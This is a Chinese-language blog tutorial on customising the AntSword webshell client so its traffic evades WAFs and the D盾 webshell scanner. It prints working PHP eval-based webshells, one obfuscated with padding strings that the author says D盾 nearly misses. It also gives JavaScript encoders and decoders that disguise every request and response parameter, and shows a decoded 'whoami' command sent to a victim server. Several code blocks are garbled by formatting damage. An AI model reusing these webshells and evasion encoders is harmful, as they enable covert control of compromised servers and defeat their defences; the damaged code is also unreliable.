


## 前言


蚁剑和菜刀一样是一款优秀的webshell管理工具（shell控制端），与菜刀相比，蚁剑具有开源，自定义能力强，跨平台等优点。在waf普遍的今天，蚁剑这款工具提供了自定义header，自定义body，自定义编码器和解码器等功能来bypass waf，实在不行，如果你有NodeJs的开发能力，你还可以修改源代码来逃避waf的特征检测。学会使用这些功能，waf再也不是渗透测试中的拦路虎，当然连接马的前提是马儿必须免杀。


## 修改蚁剑的UA


你是否遇到过webshell已经上传成功，但使用蚁剑去连接时就是连接不上的情况呢？发生的原因绝大数是因为被waf拦截了，waf会检测常用的webshell连接工具的一些特征，比如User-Agent,遇到明显的UA特征肯定会拦截。下面是蚁剑默认的UA：


太明显了，蚁剑多种方式可以修改User-Agent。


1.修改源代码


在项目路径`.modules/request.js`中进行修改:


另外项目路径下的`.modules/update.js`也需要修改：


2.为单独的webshell添加请求头


3.全局设置中添加请求头





## 使用编码器


先说下蚁剑编码器的作用，当使用蚁剑控制webshell向服务器发送数据包时，数据包中的body部分会按照编码器中定义的规则进行编码或者加密后在发送，这样就可以避免有比较明显的命令执行特征从儿被WAF拦截。


先看下不使用编码器时，蚁剑是如何发包的，执行一个查看文件的操作，抓包观察：


其中`l76cc4f5b31b36`是蚁剑随机生成的一个变量，其中的值是经过base64编码的，解码后为要查看的文件名：


变量`test`为蚁剑连接webshell的密码，也就是 php _`POST`_变量中接收数据的参数


可以看到`test`后面的值都是明文的php代码，这样就很容易被waf检测到。


使用蚁剑自带的`base64`编码器连接抓包查看：


相较不使用编码器多了一个参数`s4c932eb660f94`,这个参数测内容就是base64编码后的读取文件的php代码，然后使用参数`test`进行base64解码`s4c932eb660f94`中的内容发送给服务端进行执行。这种编码方式虽然编码了读取文件操作的代码，但是在body中还是会有明文的php代码，接下来我们改动下base64编码器，让请求的数据包中不再有明文的php代码。


### 自定义一个编码器


在这之前先了解下蚁剑的编码器规则：


```json
/
  _php::base64编码器
  Create at: 2020/05/19 16:35:59
 /

'use strict';

/
 @param  {String} pwd   连接密码
 @param  {Array}  data  编码器处理前的 payload 数组
 @return {Array}  data  编码器处理后的 payload 数组
/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 以下代码为 PHP Base64 样例

  // 生成一个随机变量名
  let randomID =_ _`0x${Math.random().toString(16).substr(2)}`__`;
  // 原有的 payload 在 data['']中
  // 取出来之后，转为 base64 编码并放入 randomID key 下
  data[randomID] = Buffer.from(data['']).toString('base64');

  // shell 在接收到 payload 后，先处理 pwd 参数下的内容，
  data[pwd] = eval(base64decode(`_$_POST[$_`{randomID}]));;

  // ##########    请在上方编写你自己的代码   ###################

  // 删除  原有的payload
  delete data[''];
  // 返回编码器处理后的 payload 数组
  return data;
}`_

```


上面的注释已经写的很清楚了，我们在自定义编码方式时只需要去修改_`data['']`_中的内容就可以了，下面是我对默认编码器的修改：


```json
/
  _php::base64编码器
  Create at: 2020/05/19 16:57:59
 /

'use strict';

/
 @param  {String} pwd   连接密码
 @param  {Array}  data  编码器处理前的 payload 数组
 @return {Array}  data  编码器处理后的 payload 数组
/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 以下代码为 PHP Base64 样例

  data[pwd] = Buffer.from(data['']).toString('base64');

  // ##########    请在上方编写你自己的代码   ###################

  // 删除  原有的payload
  delete data[''];
  // 返回编码器处理后的 payload 数组
  return data;
}_

```


由于上述的编码器没有自动解码传入的payload，所以需要在webshell中解码payload，将webshell改为如下的形式：


```php
<?php eval(base64_decode($_POST['test']));?>

```


抓包查看请求的数据包：


请求包中的`test`参数也被base64编码，已经没有明文的php代码了。这样就实现了一个简单的编码器，但是这样的编码器并不能bypass waf，因为有些waf会对请求的数据进行base64解码，从而就发现了我们的payload。没关系，既然了解了编码器的原理，那我们就可以变幻出各种payload来绕过waf。


例如：

- 为payload的base64编码后的数据前后添加几个字符串，让waf解码base64失败
- 先用rot13加密payload然后再base64编码
- 先用base64编码再使用hex编码

总之，你可以天马行空，使用各种编码组合来伪装自己的payload，任由waf多强大，也不可能全部解密出payload。


下面就写一个自定义的编码器来绕过D盾：


```json
_'use strict';

/
 @param  {String} pwd   连接密码
 @param  {Array}  data  编码器处理前的 payload 数组
 @return {Array}  data  编码器处理后的 payload 数组
/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 原有的 payload 在 data['']中
  // 取出来之后，转为 base64 编码并放入 randomID key 下
  data[pwd] = Buffer.from(data['']).toString('base64');
  
  //base64编码的前后再拼接随意定义的一个字符串
  data[pwd] = "lwk02nm" + data[pwd];
  data[pwd] += "lwk02nm";
  
  // ##########    请在上方编写你自己的代码   ###################

  // 删除  原有的payload
  delete data[''];
  // 返回编码器处理后的 payload 数组
  return data;
}_

```


然后上传到服务器的webshell就需要写成下面这样：


```php
<?php
$st = $_POST['test'];_
$sa = str_replace('lwk02nm','',$_st);
eval(base64decode($sa));
?>_

```


> 令人意外的是上面的webshell尽然可以对D盾免杀，D盾只报了1级。


抓包查看此编码器发给服务端的数据包：


可看到的确在数据包前后添加了我们自定义的字符串，这样的话就可避免waf使用base64解码成功，但是webshell却可以正常处理payload。


下面验证下自定义的编码器能否bypass D盾：


D盾将上传的webshell判断为1级，1级是可以免杀的，再结合我们的编码器就可以顺利byapss：


### bypass命令执行


意外总是来的太快，使用上面的编码器确实可以使用蚁剑连接我们的webshell了，也可以查看目录下的文件，但确无法执行命令，每次命令执行都会被D盾拦截。


抓包观察下发送的数据包：


可看到参数`kd8aa13e6949d3`的值还是base64编码，解码后的值为：`cd /d "C:/phpstudy/PHPTutorial/WWW"&whoami&echo [S]&cd&echo [E]`还是具有明显的特征会被waf拦截。


`由于蚁剑只会对data`[`pwd]里面的参数按照设定的编码器编码，其它参数默认使用base64编码，所以其它参数一旦被waf解码还是会有明显的特征，从而导致被拦截。那有办法将全部的参数编码吗？在蚁剑的一个issue里，作者给出了解决办法，具体的请去[这里`](https://github.com/AntSwordProject/antSword/issues/185)查看。


可以看到解决办法是遍历_`data[]`_取出其中的值并将其全部编码,按照这种思路修改下上面写的编码器：


```php
/
  _php::base64编码器
  Create at: 2020/05/21 13:07:23
 /

'use strict';

/
 @param  {String} pwd   连接密码
 @param  {Array}  data  编码器处理前的 payload 数组
 @return {Array}  data  编码器处理后的 payload 数组
/
module.exports = (pwd, data) => {
  // ##########    请在下方编写你自己的代码   ###################
  let ret = {};
  for (let  in data){
    if (_ _=== '_') { continue };
    ret[_] = Buffer.from(data[_]).toString('base64');
    ret[_] = 'lwk02nm' + ret[__];
    ret[] += 'lwk02nm';
  }
  ret[pwd] = Buffer.from(data['']).toString('base64');
  ret[pwd] = 'lwk02nm' + ret[pwd];
  ret[pwd] += 'lwk02nm';
  // 返回编码器处理后的 payload 数组
  return ret;
}_

```


顺利byapass D盾


抓包查看发送的数据可看到所有的参数值都已经过编码器的编码，这样就能有效防止waf的base64解码了。





[这个项目](https://github.com/AntSwordProject/AwesomeEncoder/tree/master/php/encoder)中有一些写好的编码器，大家可以拿来用，另外你也可以按照自己的思路去写一个编码器，这样bypass效果会更好。


yzddmr6大佬已经通过修改蚁剑源码实现了上述功，项目地址是：[https://github.com/yzddmr6/antSword](https://github.com/yzddmr6/antSword)


## 使用解码器


蚁剑的编码器是编码或者加密蚁剑向服务端发送的请求包的，所以解码器是用来编码或者加密服务端返回给蚁剑的数据包的，编码后的数据包只有蚁剑能够解码。经测试，使用编码器其实就能够bypass D盾了，但是不排除有些waf会检测返回包，所以有时也需要使用解码器。蚁剑自带了两种解码器，base64和rot13，下面还是通过抓包的方式来对比不使用解码器和使用了解码器后返回包的不同。


不使用解码器：


可看到返回包中的数据均已明文显示。


使用base64解码器：


现在的返回包中的数据都已使用base64进行编码了。


> 很多新手朋友在使用蚁剑时都会认为编码器和解码器是成对存在的，使用了base64编码器就必须使用base64解码器，其实不是这样的，编码器和解码器除了名字有点类似，在使用时毫无关系（RAS和AES加密方式的编码器和解码器除外）。


分析下蚁剑解码器的写法：


```json
/
  _php::base64解码器
  Create at: 2020/05/22 10:21:48
 /

'use strict';

module.exports = {
  /_
    _`@returns {string} asenc 将返回数据base64编码
    自定义输出函数名称必须为 asenc
    该函数使用的语法需要和shell保持一致
   /
  asoutput: () => {
    return function asenc($out){
      return @base64encode($out);
    }
    .replace(/\n\s+/g, '');
  },
  /`_
    _解码 Buffer
    @param {string} data 要被解码的 Buffer
    @returns {string} 解码后的 Buffer
   /
  decodebuff: (data, ext={}) => {
    return Buffer.from(data.toString(), 'base64');
  }
}_

```


先看下解码器的组成，这里导出了两个方法，`asoutput`及_`decodebuff`_。`asoutput`无需传入参数，返回一段php代码字符串，名称为`asenc`的函数，这个函数会放在请求包里，用于在服务端执行完代码后，再回显部分调用该函数asenc来编码处理，所以服务端无需针对解码做改动。


按照这个方式自写一个解码器：


```json
/
  _php::base64自定义解码器
  Create at: 2020/05/22 10:21:48
 /

'use strict';

module.exports = {
  /_
    _`@returns {string} asenc 将返回数据base64编码
    自定义输出函数名称必须为 asenc
    该函数使用的语法需要和shell保持一致
   /
  asoutput: () => {
    return function asenc($out){
      //返回时添加一个随机字符串，避免被waf解码成功
      return 'wg4a2'.@base64encode($out);
    }
    .replace(/\n\s+/g, '');
  },
  /`_
    _解码 Buffer
    @param {string} data 要被解码的 Buffer
    @returns {string} 解码后的 Buffer
   /
  decodebuff: (data, ext={}) => {
    let res = Buffer.from(data.toString().replace(/wg4a2/g,''), 'base64');
    return res;
  }
}_

```


使用这个解码器时就会子啊返回的数据包中添加随机字符串，如下图，这样只有蚁剑客户端能够解码成功，而waf则不可以。


编写解码器的思路大概就是这样的，大家可以以各种骚思路去写自己的解码器。


## 最后


除了使用常规的编码，乱序操作去写编码器和解码器，还可以使用对称加密，非对称加密等算法写编码器和解码器来逃避waf的流量检测，这种做法其实和冰蝎就很类似了。这种思路对应的文章请看这两篇：

- [蚁剑实现动态秘钥编码器解码器](https://xz.aliyun.com/t/6571)
- [关于对antSword(蚁剑)进行流量混淆处理的解决方案](https://xz.aliyun.com/t/5756)

**刚开始研究蚁剑的编码器和解码器，文中有写的不对或者不好的地方还望各位师傅斧正**


## 参考文章

- [蚁剑改造过WAF系列（一）](https://xz.aliyun.com/t/7735)
- [关于对antSword(蚁剑)进行流量混淆处理的解决方案](https://xz.aliyun.com/t/5756)
- [蚁剑改造计划之实现其他参数的随机化](http://www.hackdig.com/03/hack-72681.htm)
- [[红队武器] - AntSword之特征修改与流量处理](http://www.test666.me/archives/289/)
- [AntSword编码器篇(一) HelloWorld​](https://mp.weixin.qq.com/s/EHDvRA3Lpykpu0BDS17ENQ)
- [蚁剑实现动态秘钥编码器解码器](https://xz.aliyun.com/t/6571)
- [_WAF拦了蚁剑发送的其它参数时怎么操作_](https://mp.weixin.qq.com/s/ai3dW8HZnlFMPo-pgoqZw)
- [AntSword编码器篇(二)](https://mp.weixin.qq.com/s?biz=MzI0MDI5MTQ3OQ==&mid=2247483991&idx=1&sn=7f5e52e8d8b7a00f7d2889d8a628ef10&chksm=e91c59afde6bd0b99bf22c5ef675828bc3202f2be23eea9e9519d4259af83a15f813c946bd47&mpshare=1&scene=23&srcid=0519DoTZK79rt9hiksYzCv47&sharer_sharetime=1589856866463&sharer_shareid=f5d04c386d841caa7b6a34a6658938ee%23rd)
